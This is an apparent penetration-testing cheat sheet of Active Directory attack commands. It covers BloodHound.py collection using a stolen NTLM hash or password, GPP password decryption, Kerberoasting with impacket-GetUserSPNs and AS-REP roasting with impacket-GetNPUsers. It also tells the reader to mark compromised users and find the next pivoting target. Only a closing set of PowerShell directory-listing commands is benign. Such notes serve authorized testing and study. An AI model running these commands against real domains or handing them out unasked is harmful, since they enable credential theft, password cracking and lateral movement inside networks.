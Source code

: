 # Active Directory



## Bloodhound

{% embed url="https://github.com/fox-it/BloodHound.py" %}

You can use the python script in replacement of executing sharphound. Run `neo4j console` and `bloodhound`. Drag and drop the `.json` files to bloodhound, then mark a user/users you've compromised and use the `Analysis` tab to see where your next pivoting target is

### w/ hash

```python
python3 bloodhound.py -ns nameserver/dc ip 10.11.1.20 -d domain.local -u Administrator --hashes ntlm -c All
```

### w/ password

```python
python3 bloodhound.py -ns <DC IP> -d <domain> -u <username> -p <password> -c All
```

## Decrypting GPP Password

```
gpp-decrypt asdlkfjOLKAjlksdf/DLkjslkjf;lkj234lkasd0+
```

## Impacket Stuff

### Kerberoasting

```
impacket-GetUserSPNs test.local/john:password123 -dc-ip 10.10.10.1 -request
```

### AS-REP Roasting

```
impacket-GetNPUsers -no-pass -dc-ip 10.10.10.10 domain.local/ -usersfile users.lst
impacket-GetNPUsers -no-pass -dc-ip 10.10.10.10 domain.local/ -usersfile users.lst | grep krb5asrep
```

## Listing directories in PowerShell

```
Get-ChildItem . -Force
dir -Force
ls -Force
gci -Force
```
